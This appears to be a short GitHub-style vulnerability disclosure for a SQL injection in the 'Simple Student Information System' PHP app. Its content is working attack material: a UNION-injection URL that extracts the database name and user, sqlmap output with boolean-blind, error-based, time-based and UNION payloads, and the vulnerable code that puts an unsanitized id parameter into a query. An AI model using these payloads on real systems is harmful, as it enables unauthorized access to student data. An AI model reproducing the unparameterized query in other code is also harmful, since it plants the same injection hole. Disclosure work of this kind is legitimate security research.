

# Simple Student Information System SQL Injection

# Vendor Homepage:

https://www.sourcecodester.com


# Source Code Download：

[https://www.sourcecodester.com/php/15147/simple-student-information-system-phpoop-free-source-code.html](https://www.sourcecodester.com/php/15147/simple-student-information-system-phpoop-free-source-code.html)


# SQL Injection

```html
http://192.168.1.8/sis/admin/departments/manage_department.php?id=-5756%27%20UNION%20ALL%20SELECT%20NULL,database(),user(),NULL,NULL,NULL,NULL--%20-
```




# sqlmap

```php
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6390=6390 AND 'pzes'='pzes

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' OR (SELECT 4541 FROM(SELECT COUNT(*),CONCAT(0x7178766b71,(SELECT (ELT(4541=4541,1))),0x7176767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'kDKB'='kDKB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1279 FROM (SELECT(SLEEP(5)))JyND) AND 'LkOx'='LkOx

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=-3131' UNION ALL SELECT NULL,NULL,CONCAT(0x7178766b71,0x526f43536262496c4a647064457565426671674a50436d49484a52677a4a546a654545724c464e6f,0x7176767871),NULL,NULL,NULL,NULL-- -
---
```


# code

`admin/departments/manage_department.php`  line 1-13，

```php
<?php
require_once('../../config.php');
if(isset($_GET['id'])){
    $qry = $conn->query("SELECT * FROM `department_list` where id = '{$_GET['id']}'");
    if($qry->num_rows > 0){
        $res = $qry->fetch_array();
        foreach($res as $k => $v){
            if(!is_numeric($k))
            $$k = $v;
        }
    }
}
?>
```